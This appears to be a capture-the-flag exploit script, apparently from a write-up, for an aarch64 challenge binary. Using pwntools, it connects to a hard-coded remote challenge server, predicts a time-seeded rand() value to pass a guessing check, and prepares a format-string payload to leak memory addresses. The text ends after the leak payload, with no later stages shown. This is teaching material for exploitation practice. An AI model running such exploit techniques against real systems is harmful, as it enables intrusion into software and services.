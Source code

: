 #### Script

```python!
from pwn import *
import ctypes
import time
import subprocess
import os

exe = './chall'

e = context.binary = ELF(exe)

if args.REMOTE:
	
	libc = ELF('./libc.so.6')							# remote
	leak_offset = 0x273fc				# REMOTE

	ip = '152.69.210.130'  # change your ip and port here
	# ip = '0.0.0.0'
	port = 1337
	r = remote(ip, port)    
    
elif args.LOCAL:
	libc = ELF('/usr/lib/aarch64-linux-gnu/libc.so.6') 	# local
	leak_offset = 0x273fc				# LOCAL

	r = process(['./qemu_aarch64', exe])
	# r = process(['./ld-linux-aarch64.so.1', '--library-path', '.', exe])
    
else:
	r = process(['./qemu_aarch64', '-g', '9999', exe])
	libc = ELF('/usr/lib/aarch64-linux-gnu/libc.so.6') 	# local
	leak_offset = 0x273fc				# LOCAL

	# subprocess.Popen(['gnome-terminal', '--', 'gdb-multiarch', '-q', exe])

	gdbscript = '''
	target remote :9999
	b __libc_start_main@plt
	c
	b *($x0-0x24c)
	b *($x0-0x328)
	b *($x0-0x318)
	'''


# ================== vuln1 ===================== #

r.recvuntil(b"Enter your guess: ")

libc_vuln1 = ctypes.CDLL(None)
libc_vuln1.srand(int(time.time()))

# Generate a magic number
magic_number = libc_vuln1.rand() % 10000 + 1

r.sendline(str(magic_number).encode())

# ================== vuln2 ===================== #

r.recvuntil(b'your spell: ')

leak_payload = b'%4$p.%8$p.%29$p.%21$p'
```